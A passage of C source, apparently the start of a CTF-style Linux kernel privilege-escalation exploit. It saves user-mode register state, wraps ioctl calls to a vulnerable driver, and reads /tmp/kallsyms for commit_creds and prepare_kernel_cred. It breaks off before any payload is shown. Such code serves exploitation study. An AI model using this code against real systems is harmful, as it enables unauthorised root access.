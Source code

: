 ```c

void saveStatus();
void get_function_address();
void core_read(char* buf);
void change_off(int off);
void core_copy_func(unsigned long long nbytes);
void print_binary(char* buf, int length);
void shell();

size_t user_cs, user_ss, user_rflags, user_sp;
void saveStatus(){
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

void core_read(char* buf){
	ioctl(fd, 0x6677889B, buf);
}

void change_off(int off){
	ioctl(fd, 0x6677889C, off);
}

void core_copy_func(unsigned long long nbytes){
	ioctl(fd, 0x6677889A, nbytes);
}

// This function is used to get the addresses of two key functions from /tmp/kallsyms
void get_function_address(){
	FILE* sym_table = fopen("/tmp/kallsyms", "r");	// including all address of kernel functions
	if(sym_table == NULL){
		printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
		exit(1);
	}
	unsigned long long addr = 0;
	char type[0x10];
	char func_name[0x100];
	// when the reading raises error, the function fscanf will return a zero, so that we know the file comes to its end.
	while(fscanf(sym_table, "%llx%s%s", &addr, type, func_name)){
		if(commit_creds && prepare_kernel_cred)		// two addresses of key functions are all found, return directly.
			return;
		if(!strcmp(func_name, "commit_creds")){		// function "commit_creds" found
			commit_creds = addr;
			printf("\033[32m\033[1m[+] Note: Address of function \"commit_creds\" found: \033[0m%#llx\n", commit_creds);
		}else if(!strcmp(func_name, "prepare_kernel_cred")){
			prepare_kernel_cred = addr;
			printf("\033[32m\033[1m[+] Note: Address of function \"prepare_kernel_cred\" found: \033[0m%#llx\n", prepare_kernel_cred);
		}
	}
}

// this is a universal function to print binary data from a char* array
void print_binary(char* buf, int length){
	int index = 0;
```